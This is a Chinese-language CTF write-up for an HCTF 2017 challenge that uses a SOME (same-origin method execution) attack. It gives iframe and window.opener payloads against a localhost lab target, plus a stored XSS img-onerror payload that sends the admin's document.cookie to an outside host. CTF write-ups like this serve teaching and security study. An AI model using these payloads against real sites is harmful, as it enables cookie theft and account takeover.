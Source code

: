 ##  writeup 

这是HCTF 2017的一个真题，主要利用some攻击
关于什么是some攻击，出题人已经讲得很清楚了，[在这里](https://lorexxar.cn/2017/11/15/hctf2017-deserted-world/)

**核心思想就是利用弹出的window.opener去操作同源的父窗口的dom对象**

### 出题人提供一种解法：

在自己的vps上创建一个1.html，内容如下：
```html
<script>
    function start_some() {
        window.open("2.html");
        location.replace("http://localhost:9999/user.php");
        //假设题目监听的是本地的  9999端口
    }
    setTimeout(start_some(), 1000);
</script>
```
然后vps上的2.html内容如下：
```html
<script>
    function attack() {
        location.replace("http://localhost:9999/edit.php?callback=RandomProfile&user=admin");
    }
    setTimeout(attack, 2000);
</script>
```

然后 设置 admin用户的email为:
```html
<img src="\" onerror=window.location.href='http://0xb.pw?cookie='%2bdocument.cookie>
```
然后发给管理员的url为`http://vps/1.html`,当管理员打开此页面的时候,就可以打管理员的cookie了。

但是这种攻击方法只可以对bot起作用，因为非用户交互的弹出窗口都会被浏览器拦截。

### 第二种

只需要一个文件的payload。

```html
<iframe src="http://localhost:9999/user.php" name=b></iframe>
<iframe name=a></iframe>

<script>
window.frames[0].open('http://localhost:9999/edit.php?callback=EditProfile','a');
setTimeout(
  function(){
    window.frames[1].location.href = 'http://localhost:9999/edit.php?callback=RandomProfile&user=admin'
  }
,1000);
</script>
```

首先在b矿建中打开 user.php，在里面window.open一个窗口到框架a中 。 这时候框架a中的页面的父窗口就是框架b中的窗口，然后把admin的信息更新给管理员。

跟前面的相同，设置 admin用户的email为:
```html
<img src="\" onerror=window.location.href='http://0xb.pw?cookie='%2bdocument.cookie>
```
把此页面的url发送给管理员。

其实我感觉payload直接写成这样都可以：

```html
<iframe src="http://localhost:9999/user.php" name=b></iframe>
<iframe name=a></iframe>

<script>
window.frames[0].open('http://localhost:9999/edit.php?callback=RandomProfile&user=admin','a');
</script>
```